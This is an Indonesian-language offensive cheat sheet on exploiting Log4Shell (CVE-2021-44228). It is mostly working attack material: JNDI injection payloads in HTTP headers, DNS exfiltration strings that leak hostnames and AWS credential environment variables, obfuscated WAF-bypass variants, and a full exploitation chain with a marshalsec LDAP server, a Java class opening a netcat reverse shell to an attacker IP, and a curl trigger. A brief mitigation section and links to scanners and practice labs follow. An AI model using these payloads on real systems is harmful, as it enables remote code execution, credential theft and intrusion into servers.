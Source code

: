 # Log4J
type: #offensive #deserialization  #rce 
techniques: #rce #reverseshell #exfiltration 
target: #log4j

## Log4Shell (CVE-2021-44228)
Apache Log4j2 versi 1.0-beta9 s/d 2.15.0 (kecuali 2.12.2, 2.12.3, dan 2.3.1)

Log4Shell melakukan lookup seperti system, environment variable, dan Java, namun JNDI membuat ini semakin buruk. Vulnerability ini berbahaya karena dapat menginjeksikan payload JNDI di dalam log dan dapat mengeksekusi code.
```sh
# basic: akses site lain, gunakan netcat untuk recon atau 
${jndi:ldap://site-tujuan.com}

# recon menggunakan http
${jndi:http://site-tujuan.com}

# testing dengan membuat lokasi eror pada header
curl site-tujuan.com -H 'User-Agent: ${jndi:ldap://arbitrary-website.com/akakss}'
curl site-tujuan.com -H 'X-Api-Version: ${jndi:rmi://arbitrary-website.com/akakss}'
```

Header yang dapat dicek
- User-Agent
- X-Api-Version
- X-Forwarded-For
- Tempat lain yang masuk ke dalam log

> Untuk testing pada Log4J versi 2.15 membutuhkan localhost check bypass:
> `${jndi:ldap://127.0.0.1#...}`
> `${jndi:ldap://127.0.0.1#evilhost.com:1389/a}`

### Data Exfiltration
Data exfiltration dapat dilakukan dengan membuat dns request. Informasi seperti environment variabel dapat diambil. Beberapa metode dan tools untuk data exfiltration adalah
```sh
# canary tokens
${jndi:ldap://x${hostName}.L4J.lt4aev8pktxcq2qlpdr5qu5ya.canarytokens.com/a}

# burp collaborator
${jndi:ldap://abpb84w6lqp66p0ylo715m5osfy5mu.burpcollaborator.net}

# interactsh
${jndi:ldap://c72gqsaum5n94mgp67m0c8no4hoyyyyyn.interact.sh}

# dnslog
${jndi:ldap://2j4ayo.dnslog.cn}

# huntress
${jndi:ldap://log4shell.huntress.com:1389/hostname=${env:HOSTNAME}/fe47f5ee-efd7-42ee-9897-22d18976c520}
```

```sh
# dns request berisi informasi sensitif.
${jndi:ldap://jv-${sys:java.version}-hn-${hostName}.ei4frk.dnslog.cn/a}

# Potential attack
${env:AWS_ACCESS_KEY_ID}
${env:AWS_CONFIG_FILE}
${env:AWS_PROFILE}
${env:AWS_SECRET_ACCESS_KEY}
${env:AWS_SESSION_TOKEN}
${env:AWS_SHARED_CREDENTIALS_FILE}
${env:AWS_WEB_IDENTITY_TOKEN_FILE}
${env:HOSTNAME}
${env:JAVA_VERSION}
${env:PATH}
${env:USER}
${hostName}
${java.vendor}
${java:os}
${java:version}
${log4j:configParentLocation}
${sys:PROJECT_HOME}
${sys:file.separator}
${sys:java.class.path}
${sys:java.class.path}
${sys:java.class.version}
${sys:java.compiler}
${sys:java.ext.dirs}
${sys:java.home}
${sys:java.io.tmpdir}
${sys:java.library.path}
${sys:java.specification.name}
${sys:java.specification.vendor}
${sys:java.specification.version}
${sys:java.vendor.url}
${sys:java.vendor}
${sys:java.version}
${sys:java.vm.name}
${sys:java.vm.specification.name}
${sys:java.vm.specification.vendor}
${sys:java.vm.specification.version}
${sys:java.vm.vendor}
${sys:java.vm.version}
${sys:line.separator}
${sys:os.arch}
${sys:os.name}
${sys:os.version}
${sys:path.separator}
${sys:user.dir}
${sys:user.home}
${sys:user.name}
```

### Bypass WAF
```sh
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}

${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}

${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}

${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}

${${::-j}ndi:rmi://attackerendpoint.com/}
```

### Exploitation
#### Using Java marshalling libraries 
Buka http://mirrors.rootpei.com/jdk/ download Java versi 1.8.0_181 `jdk-8u181-linux-x64.tar.gz`. Kemudian konfigurasi versi Java menjadi 1.8.0_181
```sh
sudo mkdir /usr/lib/jvm 

cd /usr/lib/jvm

sudo tar xzvf ~/Downloads/jdk-8u181-linux-x64.tar.gz    # modify as needed

sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0_181/bin/java" 1
sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_181/bin/javac" 1
sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/lib/jvm/jdk1.8.0_181/bin/javaws" 1

sudo update-alternatives --set java /usr/lib/jvm/jdk1.8.0_181/bin/java
sudo update-alternatives --set javac /usr/lib/jvm/jdk1.8.0_181/bin/javac
sudo update-alternatives --set javaws /usr/lib/jvm/jdk1.8.0_181/bin/javaws

java -version
```

Instalasi marshalsec
```sh
git clone https://github.com/mbechler/marshalsec.git

# install maven and build the code
sudo apt install maven
mvn clean package -DskipTests

java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit"
```

Buat Java reverse shell `Exploit.java`
```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 1234");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

Compile java dan eksploitasi
```sh
# Compile dengan versi java 1.8 dan kompatibility java 1.8
javac Exploit.java -source 8 -target 8
# atau
javac Exploit.java

# buka http server temporer pada tab lain
python3 -m http.server

# buka netcat listener pada tab lain
nc -lnvp 1234

#trigger eksploitasi
curl 'http://MACHINE_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\}'
```

### Mitigasi
Deteksi vulnerable version:
`find / -name "log4j-core*.jar" 2>/dev/null | grep -E "log4j\-core\-(1\.[^0]|2\.[0-9][^0-9]|2\.1[0-6])"`

Update Log4J ke versi 2.16.0 JNDI tidak diperbolehkan di dalam log atau:
- Buka `/etc/default/solr.in.sh` dan tambahkan `SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"`
- Kemudian restart service `sudo /etc/init.d/solr restart`


### Closing
#### Log4j testing:
Deteksi kerentanan servermu di https://log4shell.huntress.com/
Coba eksploitasi pada: 
https://github.com/leonjza/log4jpwn
https://tryhackme.com/room/solar jika free user pakailah VPN.
https://github.com/christophetd/log4shell-vulnerable-app spring boot vulnerable app


#### Source
https://book.hacktricks.xyz/pentesting-web/deserialization/jndi-java-naming-and-directory-interface-and-log4shell#log4shell-vulnerability
https://www.lunasec.io/docs/blog/log4j-zero-day/
https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf

Below are snippets that might help either effort:
-   [https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes](https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes) (local, based off hashes of log4j JAR files)
-   [https://gist.github.com/olliencc/8be866ae94b6bee107e3755fd1e9bf0d](https://gist.github.com/olliencc/8be866ae94b6bee107e3755fd1e9bf0d) (local, based off hashes of log4j CLASS files)
-   [https://github.com/nccgroup/Cyber-Defence/tree/master/Intelligence/CVE-2021-44228](https://github.com/nccgroup/Cyber-Defence/tree/master/Intelligence/CVE-2021-44228) (listing of vulnerable JAR and CLASS hashes)
-   [https://github.com/omrsafetyo/PowerShellSnippets/blob/master/Invoke-Log4ShellScan.ps1](https://github.com/omrsafetyo/PowerShellSnippets/blob/master/Invoke-Log4ShellScan.ps1) (local, hunting for vulnerable log4j packages in PowerShell)
-   [https://github.com/darkarnium/CVE-2021-44228](https://github.com/darkarnium/CVE-2021-44228) (local, YARA rules)

As a reminder, a massive resource is available here: 
[https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/](https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/)

